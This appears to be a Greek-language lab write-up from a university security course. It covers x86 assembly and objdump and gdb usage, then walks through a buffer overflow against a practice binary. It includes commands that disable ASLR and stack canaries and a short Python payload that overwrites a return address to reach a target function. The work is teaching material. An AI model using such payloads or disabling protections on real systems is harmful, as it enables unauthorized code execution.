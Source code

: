 # Εισαγωγή σε Buffer Overflow Attacks

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=c9554f73)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=5ddddcb3)

## Περιεχόμενο

Στις παραπάνω διαλέξεις κάναμε τα ακόλουθα:

1. **Εισαγωγή στην x86 Assembly**: Μια σύντομη επισκόπηση της αρχιτεκτονικής και των βασικών εντολών.
2. **Ανάλυση προγραμμάτων μέσω εργαλείων**:
   - Χρήση του `objdump` για αποσυναρμολόγηση (disassembly) εκτελέσιμων αρχείων.
   - Χρήση του `gdb` για δυναμική ανάλυση και debugging.
3. **Πρώτο μας Buffer Overflow Attack**:
   - Πώς μπορούμε να εκμεταλλευτούμε σφάλματα διαχείρισης μνήμης.
   - Επιθέσεις buffer overflow και τρόποι πρόκλησής τους.

Τα παραπάνω αποτελούν θεμελιώδεις αρχές στην ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού.

---

## Εισαγωγή στο objdump και ανάλυση του buf0

Το `objdump` είναι ένα εργαλείο που μας επιτρέπει να αναλύσουμε το περιεχόμενο εκτελέσιμων αρχείων και να δούμε τη δομή τους. Η επιλογή `-d` στο `objdump` σημαίνει decompile και χρησιμοποιείται για την αποσυναρμολόγηση ενός εκτελέσιμου αρχείου.

Όταν χρησιμοποιούμε το `objdump -d buf0`, μπορούμε να βρούμε τη διεύθυνση της συνάρτησης `thank_you`. Ωστόσο, αυτές οι διευθύνσεις είναι relative προς τη βάση του εκτελέσιμου αρχείου και μπορεί να αλλάξουν κατά την εκτέλεση λόγω του ASLR (address space layout randomization).

Για να βρούμε τη σωστή διεύθυνση κατά την εκτέλεση του προγράμματος, πρέπει να χρησιμοποιήσουμε το `gdb`.

### Βήματα για να βρούμε τη σωστή διεύθυνση της συνάρτησης `thank_you`:

1. **Χρήση του `objdump`**:

   ```sh
   objdump -d buf0 | grep thank_you
   ```

   Αυτό θα επιστρέψει τη relative διεύθυνση της συνάρτησης στο εκτελέσιμο.

2. **Χρήση του `gdb` για να βρούμε τη πραγματική διεύθυνση**:

   ```sh
   gdb ./buf0
   break main
   run <όρισμα>
   info address thank_you
   ```

   Αυτή η εντολή θα επιστρέψει την πραγματική διεύθυνση της συνάρτησης στη μνήμη κατά την εκτέλεση του προγράμματος.

---

### Χρήσιμες Εντολές `gdb`

- Προβολή της τιμής στη διεύθυνση που δείχνει ο δείκτης στοίβας:

  ```sh
  x/x $rsp  # Για x86_64, προβολή 4 bytes (word)
  x/gx $rsp  # Για x86_64, προβολή 8 bytes (giant word)
  x/x $esp  # Για x86
  ```

  Η εντολή `x/x $rsp` θα εμφανίσει την τιμή στη διεύθυνση που δείχνει ο δείκτης στοίβας (stack pointer) ως word (4 bytes). Για να δείτε 8 bytes (64 bits), χρησιμοποιήστε την εντολή `x/gx $rsp`.

- Προβολή της τιμής ως string:

  ```sh
  x/s $rsp  # Για x86_64
  x/s $esp  # Για x86
  ```

- Προβολή των 5 πρώτων τιμών του δείκτη στοίβας:

  ```sh
  x/5x $rsp  # Για x86_64 ή x86
  ```

- Αν μία από αυτές τις τιμές είναι δείκτης σε string:

  ```sh
  x/s 0x7ffff7b0  # Αν 0x7ffff7b0 είναι διεύθυνση σε string
  ```

- Προβολή της εντολής που δείχνει ο δείκτης εντολών:

  ```sh
  x/i $rip  # Για x86_64
  x/i $eip  # Για x86
  ```

- Προβολή των επόμενων 5 εντολών από την τοποθεσία του δείκτη εντολών:

  ```sh
  x/5i $rip  # Για x86_64
  x/5i $eip  # Για x86
  ```

- Αποσυναρμολόγηση της συνάρτησης `main`:

  ```sh
  disas main
  ```

- Προβολή των περιοχών μνήμης του προγράμματος:

  ```sh
  info proc mappings
  ```

- Τοποθέτηση σημείου διακοπής σε συγκεκριμένη διεύθυνση:

  ```sh
  break *0xADDRESS
  ```

  Για παράδειγμα, αν θέλετε να τοποθετήσετε ένα σημείο διακοπής στη διεύθυνση `0x5555555551c5` μέσα στη συνάρτηση `thank_you`, χρησιμοποιήστε την εντολή:

  ```sh
  break *0x5555555551c5
  ```

---

## Απενεργοποίηση Μηχανισμών Προστασίας Στοίβας

Για να μπορέσει να τρέξει το παραπάνω exploit, θα χρεαστεί να απενεργοποιήσουμε κάποιους μηχανισμούς προστασίας στοίβας που χρησιμοποιεί το σύστημα μας όπως τα stack canaries και το ASLR.

### Απενεργοποίηση Stack Canaries

Επαναμεταγλώττισε το ευάλωτο πρόγραμμα χωρίς προστασία στοίβας. Αν έχεις τον πηγαίο κώδικα, χρησιμοποίησε την επιλογή `-fno-stack-protector` με το `gcc`:

```sh
gcc -fno-stack-protector -o vulnerable_program source_code.c
```

### Απενεργοποίηση ASLR

Προσωρινή απενεργοποίηση του ASLR:

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Για να επανενεργοποιήσεις το ASLR μετά την ολοκλήρωση, εκτέλεσε:

```sh
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## Δημιουργία του Exploit

Για να δημιουργήσω το exploit, ακολούθησα τα παρακάτω βήματα:

1. **Ανάλυση της Στοίβας με το `gdb`**:

   - Έτρεξα το πρόγραμμα με `gdb` και τοποθέτησα ένα breakpoint μετά το `strcpy` στη συνάρτηση `print`.
   - Χρησιμοποίησα την εντολή `x/16gx $rsp` για να δω τις 16 τελευταίες μεγάλες λέξεις των 64 bytes που έχει αποθηκευμένη η στοίβα.

   ```sh
   gdb ./buf0
   break *print+20  # Breakpoint μετά το strcpy
   run <όρισμα>
   x/16gx $rsp
   ```

2. **Εύρεση του Offset**:

   - Τοποθέτησα επίτηδες την τιμή `0xffffffff` στο buffer για να δω γρήγορα πού αποθηκεύεται.
   - Χρησιμοποίησα την εντολή `disas main` για να βρω τη διεύθυνση της επόμενης εντολής μετά το `call`.
   - Υπολόγισα το offset από την αρχή του buffer μέχρι τη διεύθυνση επιστροφής.

3. **Δημιουργία του Payload**:

   - Δημιούργησα ένα Python script για τη δημιουργία του payload.

   ```python
   import sys
   offset = b"AAAAAAAA" * 9
   buffer = offset + b"\xc9\x51\x55\x55\x55\x55\x00\x00"  # 0x5555555551c9

   sys.stdout.buffer.write(buffer)
   ```

4. **Εκτέλεση του Exploit**:

   - Έτρεξα το πρόγραμμα με το payload.

   ```sh
   python3 exploit.py > payload
   sudo ./buf0 $(cat payload)
   ```

Με αυτά τα βήματα, κατάφερα να εκμεταλλευτώ το buffer overflow και να εκτελέσω τη συνάρτηση `thank_you`, αποκτώντας root πρόσβαση.

---

## Συμπέρασμα

Αν και χρειάστηκε να απενεργοποιήσω μηχανισμούς προστασίας και να εκτελέσω το πρόγραμμα με δικαιώματα root, αυτή η άσκηση ήταν πολύτιμη για την κατανόηση των buffer overflow επιθέσεων. Μέσα από αυτή τη διαδικασία, έμαθα πώς να αναλύω τη μνήμη ενός προγράμματος, να βρίσκω ευπάθειες και να δημιουργώ exploits. Αυτές οι γνώσεις είναι θεμελιώδεις για την ασφάλεια συστημάτων και την ανάλυση κακόβουλου λογισμικού. Επιπλέον, η κατανόηση των μηχανισμών προστασίας και πώς να τους παρακάμπτουμε είναι κρίσιμη για την ανάπτυξη πιο ασφαλών συστημάτων στο μέλλον.

